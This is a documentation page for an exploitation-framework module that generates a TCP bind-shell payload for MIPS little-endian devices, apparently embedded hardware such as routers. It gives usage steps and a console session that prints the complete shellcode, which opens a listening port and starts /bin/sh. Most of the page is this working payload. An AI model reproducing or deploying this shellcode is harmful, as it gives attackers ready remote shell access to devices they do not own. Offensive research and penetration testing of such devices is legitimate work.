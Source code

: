 ## Description

Module generates payload that creates interactive tcp bind shell for MIPSLE architecture.

## Verification Steps

  1. Start `./thgconsole.py`
  2. Do: `use payloads/mipsle/bind_tcp`
  3. Do: `set rport 4321`
  4. Do: `run`
  5. Module generates mipsle bind shell tcp payload

## Scenarios

```
rsf > use payloads/mipsle/bind_tcp
rsf (MIPSLE Bind TCP) > set rport 4321
[+] rport => 4321
rsf (MIPSLE Bind TCP) > run
[*] Running module...
[*] Generating payload
[+] Building payload for python
payload = (
    "\xe0\xff\xbd\x27\xfd\xff\x0e\x24\x27\x20\xc0\x01\x27\x28\xc0"
    "\x01\xff\xff\x06\x28\x57\x10\x02\x24\x0c\x01\x01\x01\xff\xff"
    "\x50\x30\xef\xff\x0e\x24\x27\x70\xc0\x01\x10\xe1\x0d\x24\x04"
    "\x68\xcd\x01\xfd\xff\x0e\x24\x27\x70\xc0\x01\x25\x68\xae\x01"
    "\xe0\xff\xad\xaf\xe4\xff\xa0\xaf\xe8\xff\xa0\xaf\xec\xff\xa0"
    "\xaf\x25\x20\x10\x02\xef\xff\x0e\x24\x27\x30\xc0\x01\xe0\xff"
    "\xa5\x23\x49\x10\x02\x24\x0c\x01\x01\x01\x25\x20\x10\x02\x01"
    "\x01\x05\x24\x4e\x10\x02\x24\x0c\x01\x01\x01\x25\x20\x10\x02"
    "\xff\xff\x05\x28\xff\xff\x06\x28\x48\x10\x02\x24\x0c\x01\x01"
    "\x01\xff\xff\xa2\xaf\xfd\xff\x11\x24\x27\x88\x20\x02\xff\xff"
    "\xa4\x8f\x21\x28\x20\x02\xdf\x0f\x02\x24\x0c\x01\x01\x01\xff"
    "\xff\x10\x24\xff\xff\x31\x22\xfa\xff\x30\x16\xff\xff\x06\x28"
    "\x62\x69\x0f\x3c\x2f\x2f\xef\x35\xec\xff\xaf\xaf\x73\x68\x0e"
    "\x3c\x6e\x2f\xce\x35\xf0\xff\xae\xaf\xf4\xff\xa0\xaf\xec\xff"
    "\xa4\x27\xf8\xff\xa4\xaf\xfc\xff\xa0\xaf\xf8\xff\xa5\x27\xab"
    "\x0f\x02\x24\x0c\x01\x01\x01"
)
```
